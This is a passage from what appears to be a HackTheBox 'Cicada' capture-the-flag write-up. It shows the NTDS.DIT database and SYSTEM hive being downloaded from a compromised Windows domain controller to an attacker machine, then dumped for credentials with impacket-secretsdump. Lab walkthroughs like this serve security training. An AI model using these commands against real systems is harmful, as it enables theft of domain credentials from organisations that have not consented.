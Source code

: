 After saving both NTDS.DIT and SYSTEM, we can download both the files to our attacker machine.

```powershell
download ntds.dit
download system.hive
```

![image.png](/assets/images/Cicada_HTB/image%2033.png)

After successful download of both NTDS.DIT and SYSTEM, we can use [secretsdump.py](http://secretsdump.py) to extract credentials form them.

```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```

![image.png](/assets/images/Cicada_HTB/image%2034.png)
